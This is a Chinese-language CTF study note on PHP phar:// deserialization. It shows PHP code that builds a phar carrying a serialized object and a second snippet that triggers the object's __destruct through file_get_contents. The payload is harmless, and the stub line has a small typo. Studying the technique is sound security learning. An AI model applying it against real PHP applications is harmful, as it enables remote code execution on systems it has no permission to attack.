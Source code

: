 反序列化攻击必须满足两个点。

1.必须要有unserialize()函数

2.unserialize()函数的参数必须可控。



phar://攻击使我们不依靠unserialize()函数也可以发动攻击。

原理： phar 文件包在 生成时会以序列化的形式存储用户自定义的 meta-data ，配合 phar:// 我们就能在文件系统函数 file_exists() is_dir() 等参数可控的情况下实现自动的反序列化操作，于是我们就能通过构造精心设计的 phar 包在没有 unserailize() 的情况下实现反序列化攻击，从而将 PHP 反序列化漏洞的触发条件大大拓宽了，降低了我们 PHP 反序列化的攻击起点。



构造：phar包

```javascript
<?php
// 合法创建一个phar文件
class TestObject{
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");//后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<php __HALT_COMPILER(); ?>");

$o=new TestObject();

$phar->setMetadata($o);//将自定义的meta-data存入manifest

$phar->addFromString("test.txt","test");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

phar包的内容：



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/序列化与反序列化/images/7DF63B30045E42DE9EF937DA380D3268clipboard.png)

其中还有序列化代码。



phar包的利用：

```javascript
<?php
class TestObject{
    public function __destruct(){
        echo "hack attack!";
    }
}

$filename='phar://phar.phar/test.txt';
file_get_contents($filename);
```

当访问该php文件时。执行反序列化：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/序列化与反序列化/images/432DFF0649EC49E8ADB85D225F021554clipboard.png)

参考资料：

https://www.freebuf.com/column/151447.html

https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/